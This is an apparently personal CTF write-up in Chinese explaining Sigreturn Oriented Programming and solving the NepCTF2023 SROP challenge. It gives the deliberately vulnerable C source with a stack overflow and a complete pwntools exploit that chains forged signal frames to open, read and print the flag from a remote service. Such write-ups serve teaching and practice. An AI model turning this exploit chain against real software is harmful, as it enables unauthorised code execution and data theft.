



> 这次比赛第一题就是很明显的**SROP**，正好啥也不会，学习了一下

# SROP

**SROP**全称为**Sigreturn Oriented Programming**，其攻击核心为通过伪造一个**Signal Frame**（以下简称**sigFrame**）在栈上，同时触发**sigreturn**系统调用，让内核为我们恢复一个sigFrame所描述的进程，如一个shell、一个wrtie系统调用打印栈地址等，同时通过对sigFrame中rsp和rip的修改，连接多个sigFrame，可通过多次触发sigreturn系统调用，依次恢复多个sigFrame，实现不同的功能，构成SROP攻击。一个sigFrame可理解为一个进程被挂起时，用于保存进程的数据结构，当进程恢复时，通过触发sigreturn来恢复sigFrame，从而恢复一个进程。

以上内容是抄的，说白了就是：进程受到一个signal进入中断，内核会保存上下文（寄存器状态之类的，这个上下文存在**sigFrame**中），随后进入用户态执行处理函数，处理完最后又进入内核态恢复上下文



而这个保存上下文的sigFrame完全在**用户空间**，并且内核对进程挂起时保存的sigFrame以及恢复时还原的sigFrame**没有做任何关联**，这导致sigFrame可以被伪造



上图是64位的sigFrame结构。恢复上下文之前，会调用处理函数**Signal Handler**，该函数最后一个指令是`ret`，此时`rsp`正好指向sigFrame的栈顶，也就是存有函数`rt_sigreturn`地址的位置。随后调用`rt_sigreturn`，通过该函数完成上下文的恢复。

因此，我们可以在`rsp`附近伪造sigFrame，通过调用`rt_sigreturn`完成寄存器的布置

调用可以直接写内存，更常见的是进行调用号为0xf的系统调用

> 小技巧：系统调用号可以通过`cat /usr/include/asm/unistd_64.h`查看

另外，pwntools中的`SigreturnFrame()`可以方便完成寄存器的布置

# Nepctf2023-SROP

源码都喂我嘴里了

```c
//gcc -no-pie pwn.c -fno-stack-protector -z now -o pwn  -lseccomp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <syscall.h>
#include <seccomp.h>
#include <linux/seccomp.h>

char buf[0x30]="welcome to NepCTF2023!\n";

int seccomp(){
    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(rt_sigreturn), 0);
    seccomp_load(ctx);
    return 0;
}

int sys(){
    return 15;
}

int main(){
     char bd[0x30];
     seccomp();
     syscall(1,1,buf,0x30);
     return syscall(0,0,bd,0x300);
}
```

显然需要打一个orw

注意这里有一个坑，众所周知，`syscall`的系统调用号是通过`rax`传递，然而我们反汇编之后



令人意外的是，这里的`syscall`都是通过`rdi`传调用号的，猜测与这里使用`call syscall`而非直接使用`syscall`有关

既然不用`rax`传调用号，那题目中的`sys()`函数也就没有意义了，好在能找到`pop rdi`的gadgets，可以任意布置

我的思路是，先打一次srop，把flag写到bss段，顺便把栈迁移过去，随后挨着打orw


**伪造sigFreame**时需要**格外注意**

`cs` `gs` `fs` `ss`需要**保持不变**！否则会报错！


本人就在这里排查了很久

可以按照如下写法

`sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)`

从左往右依次为`cs` `gs` `fs` `ss`

exp如下

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b *0x0000000004007AE\n"
	gdb.attach(p, cmd)
	pause()

host = "nepctf.1cepeak.cn"
port = 30551
#p = process("./pwn")
p = remote(host, port)

sig = 0x0000000000400750
pop_rdi = 0x0000000000400813
syscall = 0x00000000004007A8
buf = 0x0000000000601020

p.recv()
payload = "\x00"*0x38 +p64(pop_rdi)+p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 0
sig.rdx = buf
sig.rcx = 0x1000
sig.rip = syscall
sig.rsp = buf+0x10
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

p.send(payload)

# debug()

payload = "flag\x00\x00\x00\x00"
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 2
sig.rsi = buf
sig.rdx = 0
sig.rcx = 0
sig.rip = syscall
sig.rsp = buf+0x120
sig.rbp = buf+0x120
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x120,"\x00")
payload += p64(buf+0x120)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 3
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x240,"\x00")
payload += p64(buf+0x240)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 1
sig.rsi = 1
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)


p.send(payload)

p.interactive()
```

